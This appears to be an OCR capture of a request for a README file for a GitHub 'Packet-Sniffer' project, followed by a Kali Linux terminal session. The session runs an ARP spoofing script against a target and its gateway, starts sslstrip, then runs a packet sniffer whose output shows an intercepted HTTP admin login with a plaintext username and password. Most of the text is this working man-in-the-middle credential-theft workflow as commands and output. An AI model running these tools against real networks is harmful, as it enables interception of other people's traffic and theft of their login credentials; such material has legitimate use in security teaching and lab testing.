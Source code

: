 https://github.com/arifbinekram/Packet-Sniffer
write me a read me file for this project :
(root㉿kali)-[~]
└─# git clone https://github.com/arifbinekram/Packet-Sniffer.git
Cloning into 'Packet-Sniffer'...
remote: Enumerating objects: 6, done.
remote: Counting objects: 100% (6/6), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 6 (delta 0), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (6/6), done.
                                                                             
┌──(root㉿kali)-[~]
└─# cd Packet-Sniffer/arp\ spoofer 
                                                                             
┌──(root㉿kali)-[~/Packet-Sniffer/arp spoofer]
└─# python arp_spoof.py -t 10.0.2.4 -s 10.0.2.1

(root㉿kali)-[~]
└─# sslstrip

sslstrip 1.0 by Moxie Marlinspike running...

──(root㉿kali)-[~]
└─# cd Packet-Sniffer/packet\ sniffer 
                                                                             
┌──(root㉿kali)-[~/Packet-Sniffer/packet sniffer]
└─# python packet_sniffer.py 
[+] HTTP Request > www.sxtmgc.com/admin/loginvalidate.php


[+] Possible username and password: username=packetsniffer%40gmail.com&password=wefergrhsdffr&submit=

